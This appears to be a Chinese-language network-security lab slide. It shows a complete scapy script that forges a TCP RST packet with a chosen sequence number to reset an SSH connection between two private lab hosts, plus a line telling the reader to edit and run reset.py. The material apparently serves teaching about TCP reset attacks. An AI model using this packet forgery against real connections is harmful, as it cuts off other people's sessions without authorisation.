

# 利用scapy手动攻击
#!/usr/bin/python3
from scapy.all import *

print("SENDING RESET PACKET.........")
ip  = IP(src="10.0.2.6", dst="10.0.2.7")
tcp = TCP(sport=46304, dport=22,flags="R",seq=3206705447)
pkt = ip/tcp
ls(pkt)
send(pkt,verbose=0)

修改reset.py以后，执行python reset.py